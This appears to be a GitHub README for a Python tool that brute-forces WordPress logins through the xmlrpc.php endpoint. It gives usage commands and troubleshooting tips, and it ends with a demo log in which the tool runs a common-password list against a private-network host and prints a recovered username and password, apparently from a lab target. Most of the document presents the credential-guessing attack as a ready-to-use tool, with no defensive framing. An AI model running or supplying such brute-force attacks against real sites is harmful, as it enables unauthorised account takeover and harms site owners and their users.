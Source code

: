 <p align="center"><img src="https://i.imgur.com/K4aUmMo.png"></p>

<h4 align="center">An XMLRPC BruteForcer for Wordpress  - Inpired by (1N3@CrowdShield)</h4>

<p align="center">
  <a href="https://twitter.com/kavishgour"><b>Twitter</b></a>
  <span> - </span>
  <a href="https://t.me/kavishgr"><b>Telegram</b></a>
  <span> - </span>
  <a href="https://kavishgr.github.io"><b>Blog</b></a>
</p>

| Available                            | in                                   |
|--------------------------------------|--------------------------------------|
| ![](https://i.imgur.com/1wJVDV5.png) | ![](https://i.imgur.com/z36xL8c.png) |

## Usage

```bash
python3 xmlrcpbruteforce.py http://wordpress.org/xmlrpc.php passwords.txt username
python3 xmlrpcbruteforce.py http://wordpress.org/xmlrpc.php passwords.txt userlist.txt ( >>in progess<<)
```
## Bugs

If you get an ```xml.etree.ElementTree.ParseError```:

* Did you forget to add 'xmlrpc' in the url ?
* Try to add or remove 'https' or 'www'.

## TODO

* Exception Handling for xml.etree.ElementTree.ParseError
* 'userlist' enumeration

## Demo

```bash
MacBook-Pro: kavish$ python3 xmlrpcbruteforce.py http://192.168.100.34/xmlrpc.php 10k-most-common.txt elliot

---------------Examining Target--------------------

[>] Target is vulnerable.

--=[Target: http://192.168.100.34/xmlrpc.php]=--

        	[...Bruteforcing...]
--=[Tried: 1000 passwords]=--
--=[Tried: 2000 passwords]=--
--=[Tried: 3000 passwords]=--
--------------- BRUTEFORCE SUCCESSFULL  ---------------
--=[User found]=--
Login: elliot
Password: ER28-0652
--=[Exiting...]=--
```

